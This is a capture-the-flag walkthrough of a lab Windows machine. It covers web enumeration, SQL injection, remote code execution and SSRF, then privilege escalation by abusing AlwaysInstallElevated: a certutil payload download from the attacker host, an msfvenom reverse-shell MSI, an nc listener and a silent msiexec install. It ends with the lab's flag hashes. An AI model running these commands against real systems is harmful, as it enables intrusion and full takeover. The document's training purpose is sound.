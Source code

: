 
-----------

**Step 1: Port 80 HTTP Scanning**

**Command:** 
```
whatweb http://10.10.10.239
```

**Explanation:** We start by using the `whatweb` tool to scan the HTTP service on port 80 of the target machine. This helps us gather initial information about the web application running on this port.

**Tags:** Port Scanning, whatweb

---

**Step 2: Web Application Fuzzing with Nmap**

**Command:** 
```
nmap --script http-enum -p80 10.10.10.239 -oN fuzzweb
```

**Explanation:** We employ `nmap` with the `http-enum` script to perform web application fuzzing on port 80. This helps us discover directories and potentially vulnerable endpoints.

**Tags:** Port Scanning, Vulnerability Scanning, nmap, Web Application Fuzzing

---

**Step 3: Exploiting SQL Injection**

**Explanation:** After discovering the "Authentication Bypass SQLi" vulnerability in the login panel of the "voting system," we use `Burp Suite` to analyze and manipulate the SQL injection request, exploiting it with a payload obtained from `searchsploit`.

**Tags:** SQL Injection, Burp Suite, Exploitation

---

**Step 4: Exploiting Remote Code Execution**

**Explanation:** We find a "remote code execution" vulnerability in the application. We can exploit it manually by uploading a malicious PHP file. Alternatively, we can automate the attack using a Python script found in `searchsploit`.

**Tags:** Remote Code Execution, Exploitation, Python Script

---

**Step 5: SSRF Attack**

**Explanation:** We notice a domain and subdomain on port 443. We add them to our hosts file to establish a connection. Then, by exploiting a potential SSRF vulnerability, we gain access to port 5000, which is otherwise restricted. We find admin credentials, which we use to log in to the voting application and attempt the remote code execution.

**Tags:** SSRF, Port Scanning, Exploitation

---

**Step 6: Privilege Escalation with Winpeas**

**Commands:**
```
# On Attacker's Machine
sudo python -m http.server 80

# On Victim's Machine
certutil.exe -f -urlcache -split http://10.10.14.2/winPeas.exe winpeas.exe
```

**Explanation:** We use the `winpeas` tool to scan the victim's machine for potential privilege escalation vulnerabilities. We download it using `certutil.exe`.

**Tags:** Privilege Escalation, Winpeas, Certutil

---

**Step 7: Abusing "AlwaysInstallElevated"**

**Explanation:** We identify the "AlwaysInstallElevated" setting in the Windows Registry. If it's set to 1 in HKLM and HKCU, we can abuse it for privilege escalation. This involves creating a malicious .msi file and executing it with `msiexec`.

**Tags:** Privilege Escalation, Registry Settings, msiexec

---

**Step 8: Creating a Malicious .msi File**

**Command:**
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.2 LPORT=1234 --platform windows -a x64 -f msi -o reverse.msi
```

**Explanation:** We use `msfvenom` to generate a malicious .msi file that will establish a reverse shell connection to our attacker machine.

**Tags:** msfvenom, Payload Generation

---

**Step 9: Downloading and Installing the Malicious .msi**

**Commands:**
```
# On Attacker's Machine
sudo python -m http.server 80

# On Victim's Machine
certutil.exe -f -urlcache -split http://10.10.14.2/reverse.msi reverse.msi
```

**Explanation:** We serve the malicious .msi file from our attacker machine and download it on the victim's machine using `certutil.exe`.

**Tags:** Certutil, File Download

---

**Step 10: Gaining Administrator Access**

**Commands:**
```
# On Attacker's Machine
nc -nlvp 1234

# On Victim's Machine
msiexec /quiet /qn /i reverse.msi
```

**Explanation:** We set up a listener on our attacker machine and execute the downloaded .msi file on the victim's machine using `msiexec`, gaining administrator access.

**Tags:** Privilege Escalation, Reverse Shell

---
user flag 1eef3792b3eca549bd689af404afb435
root flag 460f37d2d0e6c0f859802e9ffbd5bd22